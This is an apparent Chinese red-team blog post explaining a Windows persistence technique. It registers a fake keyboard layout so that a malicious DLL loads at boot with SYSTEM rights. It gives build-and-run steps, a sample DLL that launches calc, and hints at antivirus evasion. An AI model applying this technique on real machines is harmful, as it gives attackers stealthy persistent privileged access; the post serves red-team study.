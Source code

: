 ```yaml
---
layout: post
title: 通过注册表添加键盘映射维权
category: ['维权','红队工具',Done']
---
```




## 项目介绍

先放上项目地址

https://github.com/NtQuerySystemInformation/CustomKeyboardLayoutPersistence

```
If you want to compile your own keyboard driver:
	1.-Compile the keyboard driver and the dropper (KeyboardLayoutPersistence) as Release x64.
	2.-Replace the keyboard driver dll inside KeyboardLayoutPersistence folder. 
	3.-Execute the dropper and then reboot. 

If you just want to compile and test (precompiled dll)
	1.-Compile the dropper as Release x64 (KeyboardLayoutPersistence).
	2.-Execute and then reboot.
```

Release x64编译，需要将cpp语言标准选为最新

![image-20220322140659388](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322140659388.png)



编译成功后运行64位程序，关机重启，会弹出一个system权限的cmd，可以作为开机自启动的维权手段



## 项目原理

看下源码，可以发现是在配置键盘映射的注册表中新增了一个项

![image-20220322141004269](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322141004269.png)



在Keyboard Layouts的最后新增了一项，并将恶意的KBDPAYLOAD.dll进行加载

![image-20220322141054197](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322141054197.png)

对比看下这是简体中文对应的项

![image-20220322141552546](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322141552546.png)





![image-20220322143552297](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322143552297.png)

其中input.dll为键盘的默认布局，``@%SystemRoot%\system32\input.dll,-5000``是系统获取键盘布局的项，可以看到默认的系统键盘布局为US，也就是美国英文键盘。

那么也就不难理解，其实该项目也就是做了dll的劫持，在系统获取键盘布局时加载了恶意的KBDPAYLOAD.dll。原项目dll是做了弹出cmd，我们可以生成任意免杀的dll做劫持即可



比如做一个弹出计算机的x64的dll

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

DWORD WINAPI exec(LPVOID IpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
	HANDLE hThread;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
			hThread = CreateThread(NULL, 0, exec, 0, 0, 0);
			return 0;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```

此处生成的dll为calc.dll，所以要将项目中的引用进行修改

![image-20220322162841788](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162841788.png)

![image-20220322162857741](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162857741.png)

将dll放到KeyboardLayoutPersistence文件夹下，运行exe

![image-20220322162654956](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162654956.png)

![image-20220322162755030](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162755030.png)

然后重启机器

![image-20220322162312678](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162312678.png)



## 总结

可以看作键盘布局的dll劫持

但是修改注册表的行为和dll还需要做进一步免杀